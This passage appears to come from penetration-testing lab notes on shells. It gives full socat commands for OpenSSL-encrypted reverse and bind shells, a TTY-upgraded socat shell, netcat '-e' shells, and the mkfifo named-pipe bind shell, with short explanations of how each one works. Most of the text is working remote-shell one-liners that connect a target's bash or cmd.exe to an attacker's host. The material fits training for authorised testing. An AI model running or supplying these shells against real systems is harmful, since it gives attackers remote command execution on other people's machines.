 To connect back, we would use:

```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

This technique will also work with the special, Linux-only TTY shell covered in the previous task

For setting up an OPENSSL-LISTENER using the tty technique.

```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

To connect back to this listener

```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### Common Shell Payloads[​](broken-reference) <a href="#common-shell-payloads" id="common-shell-payloads"></a>

In some versions of netcat there is a `-e` option which allows you to execute a process on connection. For example, as a listener: `nc -lvnp <PORT> -e /bin/bash` Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
